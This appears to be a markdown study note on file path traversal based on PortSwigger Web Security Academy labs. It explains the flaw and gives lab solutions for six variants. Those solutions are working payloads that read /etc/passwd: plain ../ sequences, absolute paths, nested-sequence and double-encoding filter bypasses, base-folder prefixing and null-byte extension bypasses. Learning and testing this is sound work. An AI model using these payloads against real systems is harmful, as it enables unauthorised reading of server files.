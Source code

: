 ```yaml
---
description: https://portswigger.net/web-security/file-path-traversal
---
```


# File Path Traversal

Consider a shopping application that displays images of items for sale. Images are loaded via some HTML like the following:

```
<img src="/loadImage?filename=218.png">
```

The loadImage URL takes a filename parameter and returns the contents of the specified file. The image files themselves are stored on disk in the location /var/www/images/. To return an image, the application appends the requested filename to this base directory and uses a filesystem API to read the contents of the file. In the above case, the application reads from the following file path:

`/var/www/images/218.png`

The application implements no defenses against directory traversal attacks, so an attacker can request the following URL to retrieve an arbitrary file from the server's filesystem:

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

This causes the application to read from the following file path:

`/var/www/images/../../../etc/passwd`

The sequence ../ is valid within a file path, and means to step up one level in the directory structure. The three consecutive ../ sequences step up from /var/www/images/ to the filesystem root, and so the file that is actually read is:

`/etc/passwd`

```
../ - unix
../ ..\ - win
../../../etc/passwd
......\windows\win.ini
../../../windows/win.ini
```

### **Lab: File path traversal, simple case **

view-source:https://aca01f001f9d8480c09625c5001000ea.web-security-academy.net/image?filename=../../../etc/passwd

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### **Lab: File path traversal, traversal sequences blocked with absolute path bypass**

If an application strips or blocks directory traversal sequences from the user-supplied filename, then it might be possible to bypass the defense using a variety of techniques.

You might be able to use an absolute path from the filesystem root, such as `filename=/etc/passwd`, to directly reference a file without using any traversal sequences.

view-source:https://aca51f931f78f398c0c25029001c003c.web-security-academy.net/image?filename=/etc/passwd

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Lab: File path traversal, traversal sequences stripped non-recursively

You might be able to use nested traversal sequences, such as `....// or ..../`, which will revert to simple traversal sequences when the inner sequence is stripped.

view-source:https://ac841f421fdb6bc2c0d0f6c400e200c9.web-security-academy.net/image?filename=....//....//....//etc//passwd

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

You might be able to use various non-standard encodings, such as `..%c0%af or ..%252f`, to bypass the input filter.&#x20;

..%c0%af - “/” character is encoded in unicode&#x20;

..%252f - “/” character is double encoded

view-source:https://ac141fe81e57ef54c093741800870035.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Lab: File path traversal, validation of start of path

If an application requires that the user-supplied filename must start with the expected base folder, such as /var/www/images, then it might be possible to include the required base folder followed by suitable traversal sequences. For example:

`filename=/var/www/images/../../../etc/passwd`

view-source:https://ac981f601ef40b27c0ee254500f300da.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

### Lab: File path traversal, validation of file extension with null byte bypass

If an application requires that the user-supplied filename must end with an expected file extension, such as .png, then it might be possible to use a null byte to effectively terminate the file path before the required extension. For example:

`filename=../../../etc/passwd%00.png`

view-source:https://ac9a1fbf1e8a61a7c04945ad00ad001a.web-security-academy.net/image?filename=../../../etc/passwd%00.jpg
